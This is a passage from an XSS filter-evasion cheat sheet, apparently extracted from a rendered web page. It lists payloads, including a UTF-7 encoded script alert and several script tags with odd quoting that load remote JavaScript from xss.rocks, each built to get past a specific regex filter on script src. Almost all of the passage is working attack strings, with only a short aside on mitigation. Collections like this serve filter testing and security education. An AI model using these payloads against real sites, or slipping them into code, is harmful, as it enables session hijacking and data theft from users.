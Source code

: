     ` <HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-`

## XSS using HTML quote encapsulation

This was tested in IE, your mileage may vary. For performing XSS on
sites that allow "

    <SCRIPT>

    " but don't allow "\<SCRIPT SRC..." by way of a regex filter
    "/\<script\[^\>\]+src/i":

    `<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>`

For performing XSS on sites that allow "

    <SCRIPT>

    " but don't allow "\<script src..." by way of a regex filter
    "/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i"
    (this is an important one, because I've seen this regex in the wild):

    `<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>`

Another XSS to evade the same filter,
    "/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i":

    `<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>`

Yet another XSS to evade the same filter,
    "/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i".
    I know I said I wasn't goint to discuss mitigation techniques but the
    only thing I've seen work for this XSS example if you still want to
    allow

    <SCRIPT>

tags but not remote script is a state machine (and of course there are
other ways to get around this if they allow

    <SCRIPT>

tags):

    `<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>`

And one last XSS attack to evade,
"/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i"
using grave accents (again, doesn't work in Firefox):

    ``<SCRIPT a=`>` SRC="httx://xss.rocks/xss.js"></SCRIPT>``

Here's an XSS example that bets on the fact that the regex won't catch a
matching pair of quotes but will rather find any quotes to terminate a
parameter string improperly:

    `<SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>`

This XSS still worries me, as it would be nearly impossible to stop this
without blocking all active content:
